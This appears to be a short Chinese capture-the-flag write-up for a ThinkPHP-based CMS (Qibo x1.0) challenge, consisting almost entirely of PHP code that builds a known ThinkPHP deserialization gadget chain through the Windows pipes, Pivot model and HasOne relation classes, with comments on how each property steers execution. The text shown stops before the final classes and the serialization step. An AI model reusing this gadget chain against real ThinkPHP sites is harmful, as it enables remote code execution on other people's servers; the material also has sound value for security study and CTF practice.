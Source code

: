 > 简单的题目

也是现实世界存在的东西，参考：[齐博建站系统x1.0代码审计](https://ma4ter.cn/2527.html)

直接用已有的链子打

```php
<?php
namespace think\process\pipes {
    class Windows {
        private $files = [];

        public function __construct($files)
        {
            $this->files = [$files]; //$file => /think/Model的子类new Pivot(); Model是抽象类
        }
    }
}

namespace think {
    abstract class Model{
        protected $append = [];
        protected $error = null;
        public $parent;

        function __construct($output, $modelRelation)
        {
            $this->parent = $output;  //$this->parent=> think\console\Output;
            $this->append = array("xxx"=>"getError");     //调用getError 返回this->error
            $this->error = $modelRelation;               // $this->error 要为 relation类的子类，并且也是OnetoOne类的子类==>>HasOne
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
        function __construct($output, $modelRelation)
        {
            parent::__construct($output, $modelRelation);
        }
    }
}

namespace think\model\relation{
    class HasOne extends OneToOne {

    }
}
namespace think\model\relation {
    abstract class OneToOne
    {
        protected $selfRelation;
        protected $bindAttr = [];
        protected $query;
        function __construct($query)
        {
            $this->selfRelation = 0;
            $this->query = $query;    //$query指向Query
            $this->bindAttr = ['xxx'];// $value值，作为call函数引用的第二变量
        }
    }
}

```